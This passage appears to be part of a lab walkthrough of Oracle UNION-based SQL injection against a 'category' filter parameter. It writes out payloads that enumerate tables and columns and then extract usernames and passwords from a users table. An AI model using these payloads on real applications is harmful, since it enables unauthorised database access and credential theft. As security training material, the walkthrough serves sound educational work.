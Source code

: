 ```
/filter?category=Pets'+union+all+select+'1',table_name+from+all_tables--
```


<img width="1530" height="790" alt="3" src="https://github.com/user-attachments/assets/2bcd217f-cfcc-406b-bfbd-d7788e5d689d" />


The interesting one seems “USERS_OMLYMKE”. 

```
SELECT COLUMN_NAME from all_tab_columns WHERE table_name = 'USERS_OMLYMK'
```

```
/filter?category=Pets'+union+all+select+'1',COLUMN_NAME+from+all_tab_columns+WHERE+table_name+=+'USERS_OMLYMK'--
```


<img width="1532" height="791" alt="4" src="https://github.com/user-attachments/assets/54019e64-b2b0-4070-8ed0-76eb85e74baf" />


Finally:

```
SELECT USERNAME_SRSMIC,PASSWORD_GTCMAT from USERS_OMLYMK
```

```
/filter?category=Pets'+union+all+select+USERNAME_SRSMIC,PASSWORD_GTCMAT+from+USERS_OMLYMK--
```


<img width="1532" height="796" alt="5" src="https://github.com/user-attachments/assets/de73ad4a-e6cc-4605-9f07-83d4342fec66" />

